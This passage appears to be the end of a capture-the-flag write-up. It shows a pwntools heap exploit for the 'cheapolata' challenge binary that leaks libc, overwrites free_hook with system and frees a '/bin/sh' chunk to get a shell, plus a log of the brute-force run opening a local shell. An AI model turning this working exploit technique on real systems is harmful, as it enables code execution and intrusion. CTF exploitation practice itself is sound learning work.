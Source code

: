 ```py
    free() # leak stderr

    leak = recv()
    leak += io.recv(timeout=speed)

    leak = b"A" + getb(leak, b"exit\n>>> A", b"\n=====")
    libc.address = (u64(leak) & ~0xfff) - 0x3ec000
    print("libc: %#018x" % libc.address)

    if libc.address == 0x6e65746e6f046000: # quick fix
        raise EOFError()
    if input("good libc?") == "n": # just in case
        raise EOFError()

    sleep(speed) # manual malloc because recv() emptied the buffer so sendlineafter won't work
    sl(b"1")
    sleep(speed)
    sl(str(0x38).encode())
    sleep(speed)
    sl(p64(libc.sym["system"])) # overwrite old_free_hook with system

    alloc(0x18, b"/bin/sh\0")
    free() # call system("/bin/sh")

    io.interactive() # enjoy your shell
    input("end")
    exit()

while True:
    sleep(speed)
    launch()
    try:
        exploit()
    except EOFError:
        print("fail :(")
    io.close()
```

It works locally:
```sh
$ python exploit_bf.py

[...]

[+] Starting local process './cheapolata_patched': pid 33719
guess: 0xe
libc: 0x6e65746e6f046000
fail :(
[*] Stopped process './cheapolata_patched' (pid 33719)

[...]

[+] Starting local process './cheapolata_patched': pid 33721
guess: 0x8
libc: 0x000079a7edc00000
good libc?
[*] Switching to interactive mode
$ $ whoami
meisr
$ $
```
